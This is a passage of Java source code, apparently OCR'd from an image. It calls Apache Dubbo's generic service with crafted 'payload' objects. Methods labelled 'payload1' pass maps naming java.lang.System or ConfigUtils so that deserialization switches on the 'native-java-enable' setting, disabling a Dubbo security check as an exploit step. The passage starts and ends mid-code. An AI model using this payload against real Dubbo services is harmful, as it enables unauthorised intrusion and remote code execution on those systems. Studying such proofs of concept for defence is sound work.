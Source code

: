             Object result = genericService.$invoke("sayHello", new String[]{"org.apache.dubbo.common.beanutil.JavaBeanDescriptor"}, new Object[]{javaBeanDescriptor});  
            CountDownLatch latch = new CountDownLatch(1);  
      
            CompletableFuture<String> future = RpcContext.getContext().getCompletableFuture();  
            future.whenComplete((value, t) -> {  
                System.err.println("invokeSayHello(whenComplete): " + value);  
                latch.countDown();  
            });  
      
            System.err.println("invokeSayHello(return): " + result);  
            latch.await();  
        }*/  
      
        //payload1 ConfigUtils.setProperties  
        /*  
        public static void invokeSayHello1() throws Exception {  
            setGenericService(false);  
            Properties properties = new Properties();  
            properties.setProperty("dubbo.security.serialize.generic.native-java-enable", "true");  
            HashMap pojoMap = new HashMap();  
            pojoMap.put("class","org.apache.dubbo.common.utils.ConfigUtils");  
            pojoMap.put("properties", PojoUtils.generalize(properties));  
            Object result = genericService.$invoke("sayHello", new String[]{"java.lang.String"}, new Object[]{pojoMap});  
            CountDownLatch latch = new CountDownLatch(1);  
      
            CompletableFuture<String> future = RpcContext.getContext().getCompletableFuture();  
            future.whenComplete((value, t) -> {  
                System.err.println("invokeSayHello(whenComplete): " + value);  
                latch.countDown();  
            });  
      
            System.err.println("invokeSayHello(return): " + result);  
            latch.await();  
        }  
      
         */  
        //payload1 System.setProperties  
      
        public static void invokeSayHello1() throws Exception {  
            setGenericService(false);  
            Properties properties = System.getProperties();  
            properties.put("dubbo.security.serialize.generic.native-java-enable", "true");  
      
            HashMap pojoMap = new HashMap();  
            pojoMap.put("class","java.lang.System");  
            pojoMap.put("properties", PojoUtils.generalize(properties));  
            Object result = genericService.$invoke("sayHello", new String[]{"java.lang.String"}, new Object[]{pojoMap});  
            CountDownLatch latch = new CountDownLatch(1);  
      
            CompletableFuture<String> future = RpcContext.getContext().getCompletableFuture();  
            future.whenComplete((value, t) -> {  
                System.err.println("invokeSayHello(whenComplete): " + value);  
                latch.countDown();  
            });  
      